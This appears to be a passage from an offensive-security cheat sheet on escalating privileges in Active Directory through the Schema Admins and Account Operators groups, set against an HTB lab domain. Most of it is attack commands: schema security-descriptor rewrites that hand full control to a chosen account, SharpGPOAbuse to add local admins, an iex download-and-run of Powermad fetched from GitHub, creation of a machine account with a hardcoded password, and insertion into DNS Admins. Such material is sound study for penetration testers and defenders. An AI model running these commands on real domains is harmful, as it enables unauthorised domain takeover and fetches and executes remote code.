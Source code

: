 We can directly search for events with Process Command Line value

```
Get-WinEvent -Path .\security.evtx | foreach {if($_.Properties[8].value){write-output $_.Properties[8].value}}
```

## Schema Admins
This group can modify the Active Directory schema structure, I haven't found a way to get direct control over an object, just objects that were created after the modification.

### RCE modifying schemas

```
Set-ADObject -Identity "CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=htb,DC=local" -Replace @{defaultSecurityDescriptor = 'D:(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;DA)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;SY)(A;;RPLCLORC;;;AU)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;S-1-5-21-1503354711-114608314-867684489-7112)';} -Verbose -server dc.htb.local

#Once a GPO is created, we can add startup scripts to it
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount Sven --DomainController dc.htb.local --domain htb.local --GPOName "new_dcGPO" --force
```

This will give us full control over the groups that are created after the modification.

```
Set-ADObject -Identity "CN=group,CN=Schema,CN=Configuration,DC=htb,DC=local" -Replace @{defaultSecurityDescriptor = 'D:(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;DA)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;SY)(A;;RPLCLORC;;;AU)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;S-1-5-21-1503354711-114608314-867684489-7112)';} -Verbose -server dc.htb.local

#Once a group is created, we can add members
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1')
New-MachineAccount -MachineAccount cube -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Domain htb.local -DomainController dc.htb.local
Add-ADGroupMember new_admingroup -Members cube$ -Server dc.htb.local
```

## ACCOUNT OPERATORS
This group can modify group membership and set users passwords as long the groups or member of is not Administrators, Server Operators, Account Operators, Backup Operators, or Print Operators 

### RCE Adding Members To Privileged Groups
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1')
New-MachineAccount -MachineAccount cube -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Domain htb.local -DomainController dc.htb.local
Add-ADGroupMember 'dns admins' -Members cube$ -server dc.htb.local
```
